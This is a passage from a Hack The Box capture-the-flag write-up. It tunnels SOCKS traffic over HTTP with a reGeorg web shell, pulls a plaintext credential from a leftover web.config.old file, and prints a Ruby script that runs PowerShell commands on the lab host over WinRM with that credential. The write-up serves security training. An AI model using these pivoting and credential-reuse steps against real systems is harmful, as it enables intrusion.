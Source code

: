 _Additional services?_


{% include image.html image_alt="990dab96.png" image_src="/ac4b4983-03a8-46fd-acb9-d56362db4287/990dab96.png" %}


_Firewall rules_


{% include image.html image_alt="6a265da1.png" image_src="/ac4b4983-03a8-46fd-acb9-d56362db4287/6a265da1.png" %}


You can see that only TCP ports `80,6666,64831` are allowed inbound, and nothing else. Outbound connections are denied altogether.

With that in mind, let's set up [ReGeorg](https://github.com/sensepost/reGeorg), a SOCKS tunnel over HTTP.

_Set up SOCKS tunnel with ReGeorg_


{% include image.html image_alt="87293734.png" image_src="/ac4b4983-03a8-46fd-acb9-d56362db4287/87293734.png" %}


I've chosen the ASP.NET `tunnel.aspx` because obviously many of the PHP functions were disabled.

Once that's done, we can use `proxychains` to access the additional services. But first, we need some credentials from `C:\inetpub\wwwroot\new_phish\web.config.old`.


{% include image.html image_alt="bdebac49.png" image_src="/ac4b4983-03a8-46fd-acb9-d56362db4287/d368339b.png" %}


### WinRM/WSMan and PowerShell

Armed with the credential (`simple:ZonoProprioZomaro:-(`) and the latest version of the [Ruby WinRM library](https://github.com/WinRb/WinRM), we can do something like this.

<div class="filename"><span>cmd.rb</span></div>

```rb
require 'winrm'

opts = {
  endpoint: 'http://10.10.10.128:5985/wsman',
  user: 'simple',
  password: 'ZonoProprioZomaro:-('
}

# Powershell commands
cmd = ARGV[0]

conn = WinRM::Connection.new(opts)
conn.shell(:powershell) do |shell|
  output = shell.run(cmd) do |stdout, stderr|
    STDOUT.print stdout
    STDERR.print stderr
  end
  puts "The script exited with exit code #{output.exitcode}"
end
```


[1]: https://www.hackthebox.eu/home/machines/profile/176
[2]: https://www.hackthebox.eu/home/users/profile/1391
[3]: https://www.hackthebox.eu/home/users/profile/12438
[4]: https://www.hackthebox.eu/
